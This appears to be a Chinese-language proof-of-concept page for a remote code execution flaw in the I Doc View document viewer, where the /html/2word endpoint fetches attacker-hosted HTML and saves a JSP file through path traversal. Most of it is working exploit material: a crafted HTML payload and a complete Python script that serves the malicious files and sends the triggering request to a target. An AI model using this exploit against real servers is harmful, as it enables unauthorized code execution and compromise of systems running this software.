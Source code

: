 
## I Doc View任意文件上传漏洞
I DOC VIEW是一个在线的文档查看器，其中的/html/2word接口因为处理不当，导致可以远程读取任意文件，通过这个接口导致服务器下载恶意的JSP进行解析，从而RCE。

## POC构造
流程：携带恶意link[href]的html -> 远程获取  -> 解析出href -> 远程获取恶意文件

poc.html
```html

<!DOCTYPE html>
<html lang="en">
<head>
    <title>test</title>  
</head>
<body>
  <link href="/..\..\..\docview\poc.jsp">
</body>
</html>
```
然后构造 `..\..\..\docview\poc.jsp`  这个是文件
![image](https://github.com/wy876/POC/assets/139549762/736f7c0a-4f06-4170-805a-cf1580b69de3)

![image](https://github.com/wy876/POC/assets/139549762/73ab1c2a-ad91-40a3-96b0-0ca978fa9abe)

## 利用脚本
```python
import http.server
import socketserver
import sys
import threading
import requests

visited_pages = {'/': False, '/..\..\..\docview\poc.jsp': False}

class MyHttpRequestHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        global visited_pages
        if self.path in visited_pages:
            visited_pages[self.path] = True

            if all(visited_pages.values()):
                print("Success! Go to http://{}:{}/poc.jsp".format(remote_ip,remote_port))
                threading.Thread(target=server.shutdown).start()

        if self.path == '/':
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()
            html = f'''<html>
<head><title>Index Page</title></head>
<body>
    <link href="http://{ip_address}:{port}/..\..\..\docview\poc.jsp">
</body>
</html>'''
            self.wfile.write(html.encode('utf-8'))
        elif self.path == '/..\..\..\docview\poc.jsp':
            self.send_response(200)
            self.send_header("Content-type", "text/html")
            self.end_headers()
            self.wfile.write(b"<html><body><h1>Poc Works!</h1></body></html>")
        else:
            self.send_error(404, "File not found")

    def log_message(self, format, *args):
        return

def send_request_to_remote():
    remote_url = f'http://{remote_ip}:{remote_port}/html/2word?url={ip_address}:{port}'
    try:
        response = requests.get(remote_url)
    except Exception as e:
        pass

if len(sys.argv) < 5:
    print("Usage: python script.py <IP_ADDRESS> <PORT> <REMOTE_IP> <REMOTE_PORT>")
    sys.exit(1)

ip_address = sys.argv[1]
port = int(sys.argv[2])
remote_ip = sys.argv[3]
remote_port = sys.argv[4]

def start_server():
    global server
    server = socketserver.TCPServer((ip_address, port), MyHttpRequestHandler)
    server.serve_forever()

server_thread = threading.Thread(target=start_server)
server_thread.start()

send_request_to_remote()
```
## 漏洞分析
```
https://mp.weixin.qq.com/s/lDqhDnZGXoRyp2IolQ2odg
https://mp.weixin.qq.com/s/mD4EcVmJ9QPmmMLh6KrZ0g
```
